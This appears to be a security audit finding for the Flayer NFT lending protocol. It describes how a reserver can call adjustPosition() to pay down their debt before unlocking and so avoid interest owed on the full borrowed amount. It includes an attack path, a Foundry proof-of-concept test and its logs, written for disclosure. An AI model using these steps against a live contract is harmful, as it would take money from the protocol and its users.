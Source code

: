 Massive Emerald Python

High

# Malicious users that reserve NFTs, can adjust their protectedPositions, and pay much less interest rate that they should

### Summary

The Flayer protocol allows users to reserve NFTs that they can't immediately buy via the [reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759) function. Users that reserve should pay interest rate until they fully unlock the NFT, and provide some collateral. The protocol allows suers to modify their protected listing via the [adjustPosition()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366-L417) function, however the interest rate that is owned up to this moment is not taken into account. A malicious user can repay part of the tokens he owes interest over, without first repaying the interest, and then when he decides to fully unlock his NFT via the [unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287-L329) function, he will be charged interest only on the amount that is remaining, not on the full amount that he borrowed. 


### Root Cause

In the [adjustPosition()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366-L417) function, the user can repay part of the tokens he is accruing interest over, however the interest owned up to this moment is not taken into account. 

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path
Lets consider the following scenario:
1. When the user reserves the NFT he provides **0.5e18** tokens as collateral, and now he has tokenTaken = **0.5e18** on which he accrues interest. 
2. Time passes and the user has to pay for example 8% on the **0.5e18** tokens. 
3. Instead of paying 8% interest rate on the **0.5e18** tokens, he can repay part of the tokenTaken balance via the [adjustPosition()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L366-L417) function, lets say **0.4e18**
4. Then when he decides to fully unlock his NFT via the [unlockProtectedListing()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L287-L329) function, he will be charged **8%** interest only on the **0.1e18** tokens that are left. 
5. Instead of paying **8%** of interest over **0.5e18** tokens, the user ends up paying **8%** interest over **0.1e18** tokens

### Impact

A user can pay much less interest that he is supposed to. 

### PoC

[Gist](https://gist.github.com/AtanasDimulski/95fe424bd5c38a08b7d12cc5c3911878)

After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/95fe424bd5c38a08b7d12cc5c3911878) add the following test to the ``AuditorTests.t.sol`` file:

```solidity
    function test_UserCanModifyHisProtectedPostionToPayLessTax() public {
        vm.startPrank(alice);
        collection1.mint(alice, 12);
        collection1.setApprovalForAll(address(listings), true);

        Listings.Listing memory listingAlice = IListings.Listing({
            owner: payable(alice),
            created: uint40(block.timestamp),
            duration: 10 days,
            floorMultiple: 200
        });

        uint256[] memory tokenIdsAlice = new uint256[](1);
        tokenIdsAlice[0] = 12;
        IListings.CreateListing[] memory createLisings = new IListings.CreateListing[](1);       
        IListings.CreateListing memory createListing = IListings.CreateListing({
                collection: address(collection1),
                tokenIds: tokenIdsAlice,
                listing: listingAlice
        });
        createLisings[0] = createListing;
        listings.createListings(createLisings);  
        skip(2);
        vm.stopPrank();

        vm.startPrank(bob);        
        collection1.mint(bob, 13);
        collection1.mint(bob, 14);
        collection1.mint(bob, 15);
        collection1.setApprovalForAll(address(locker), true);
        uint256[] memory tokenIdsBob = new uint256[](3);
        tokenIdsBob[0] = 13;
        tokenIdsBob[1] = 14;
        tokenIdsBob[2] = 15;
        locker.deposit(address(collection1), tokenIdsBob);
        collectionTokenA.approve(address(listings), type(uint256).max);
        listings.reserve(address(collection1), 12, 0.5e18);
        ProtectedListings.ProtectedListing memory protectedListingBob = protectedListings.listings(address(collection1), 12);
        console2.log("Bob's tokenTaken: ", protectedListingBob.tokenTaken);

        /// @notice we skip one year
        skip(31_536_000);
        collectionTokenA.approve(address(protectedListings), type(uint256).max);
        uint256 bobBalanceBeforeAdjustingAnUnlcoking = collectionTokenA.balanceOf(bob);
        uint256 amountThatBobShouldPayIfHeDirectlyUnlocks = protectedListings.unlockPrice(address(collection1), 12);
        console2.log("The current price that needs to be paid to unlock the NFT: ", amountThatBobShouldPayIfHeDirectlyUnlocks);
        protectedListings.adjustPosition(address(collection1), 12, int256(-0.4e18));
        console2.log("The current price that need to be paid to unlock the NFT: ", protectedListings.unlockPrice(address(collection1), 12));
        protectedListings.unlockProtectedListing(address(collection1), 12, true);
        uint256 bobBalanceAfterAdjustingAndUnlocking = collectionTokenA.balanceOf(bob);
        uint256 amountThatBobPaid = bobBalanceBeforeAdjustingAnUnlcoking - bobBalanceAfterAdjustingAndUnlocking;
        console2.log("Amount that bob paid if he adjusted his position before unlocking it: ", amountThatBobPaid);
        assertEq(collection1.ownerOf(12), bob);
        assert(amountThatBobShouldPayIfHeDirectlyUnlocks > amountThatBobPaid);
        vm.stopPrank();
    }
```

```solidity
Logs:
  Bob's tokenTaken:  500000000000000000
  The current price that needs to be paid to unlock the NFT:  626499999985927999
  The current price that need to be paid to unlock the NFT:  125299999997185599
  Amount that bob paid if he adjusted his position before unlocking it:  525299999997185599
```

To run the test use: ``forge test -vvv --mt test_UserCanModifyHisProtectedPostionToPayLessTax``

### Mitigation

_No response_